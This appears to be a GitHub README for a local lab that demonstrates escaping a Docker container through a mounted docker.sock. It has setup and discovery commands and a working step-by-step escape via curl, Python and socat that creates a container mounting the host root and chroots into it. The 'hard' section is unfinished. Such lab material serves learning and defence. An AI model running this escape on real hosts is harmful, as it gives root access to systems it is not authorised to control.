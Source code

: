 # container-breaking

### Setup Commands

```bash
# start container
docker compose up --build -d
# shell into the container if you need
# alpine uses sh not bash
docker exec -it container-escapes sh
```

### Discovery

check if `docker.sock` is mounted

```bash
docker inspect container-escapes --format '{{json .Mounts}}' | jq

# response will look like this if so
[
  {
    "Type": "bind",
    "Source": "/var/run/docker.sock",
    "Destination": "/var/run/docker.sock",
    "Mode": "rw",
    "RW": true,
    "Propagation": "rprivate"
  }
]
```

from shell inside the container
we can reveal socket and file permissions

```bash
# confirm the socket exists and permissions
ls -l /var/run/docker.sock
# output
srw-rw----    1 root     root             0 Oct 15 19:24 /var/run/docker.sock


# see mount table
grep docker.sock /proc/self/mounts || cat /proc/self/mounts | grep docker

# output
tmpfs /run/docker.sock tmpfs rw,nosuid,nodev,noexec,relatime,size=1635648k,mode=755 0 0
```

from a shell inside the container we can also
reveal the container's effective identity and capabilities

```bash
# discover user identity
id
# out
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

# discover kernel capabilities
awk '/CapEff/ {print $2}' /proc/self/status   # hex mask for effective capabilities
# out
00000000a80425fb
```

If CapEff != 0 you have capabilities that may matter like
`SYS_ADMIN` or `SYS_PTRACE`.

### Exploiting Docker Sock Exposure (easy)

This is easy as things like

- python
- curl
- socat
  are already installed and are not blocked to the shell.

```bash
# exec (simulate getting shell)
docker exec -it container-escapes-easy sh
# query the daemon
curl --unix-socket /var/run/docker.sock http://localhost/_ping
curl --unix-socket /var/run/docker.sock http://localhost/containers/json
```

or write python to connect to the external daemon

```python
# make this file and run python filename.py
python3 - <<'PY'
import socket
s=socket.socket(socket.AF_UNIX)
s.connect('/var/run/docker.sock')
s.send(b"GET /_ping HTTP/1.0\r\nHost: localhost\r\n\r\n")
print(s.recv(1024))
s.close()
PY
```

or use socat

```bash
# open interactive connection to the socket; then type: GET /_ping HTTP/1.0<enter><enter>
socat - UNIX-CONNECT:/var/run/docker.sock
# or echo a one-shot:
echo -e 'GET /_ping HTTP/1.0\r\nHost: localhost\r\n\r\n' | socat - UNIX-CONNECT:/var/run/docker.sock
```

---

**Mounting the Host Filesystem**
From inside the container

**Create container with host filesystem mounted:**

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" -d '{"Cmd":["sleep","infinity"],"Image":"alpine","HostConfig":{"Binds":["/:/host"]}}' http://localhost/containers/create
```

→ Save the **container ID**

**Start the container:**

```bash
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/CONTAINER_ID/start
```

**Verify it's running:**

```bash
curl --unix-socket /var/run/docker.sock http://localhost/containers/CONTAINER_ID/json | grep -i running
```

**Create exec instance (saves as variable for easy reuse):**

```bash
EXEC_ID=$(curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" -d '{"AttachStdin":true,"AttachStdout":true,"AttachStderr":true,"Tty":true,"Cmd":["chroot","/host","pwd"]}' http://localhost/containers/CONTAINER_ID/exec | grep -o '"Id":"[^"]*"' | cut -d'"' -f4) && echo $EXEC_ID
```

**Start the exec:**

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" --no-buffer -N -d '{"Detach":false,"Tty":true}' http://localhost/exec/$EXEC_ID/start
```

**To get another shell, repeat steps 4-5.**

**Delete the Containers**
Back on your machine find the containers you made and delete them

```bash
curl --unix-socket /var/run/docker.sock http://localhost/containers/json?all=true
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/CONTAINER_ID/stop
curl --unix-socket /var/run/docker.sock -X DELETE http://localhost/containers/CONTAINER_ID
```

### Exploiting Docker Sock (hard)

To be continued ...
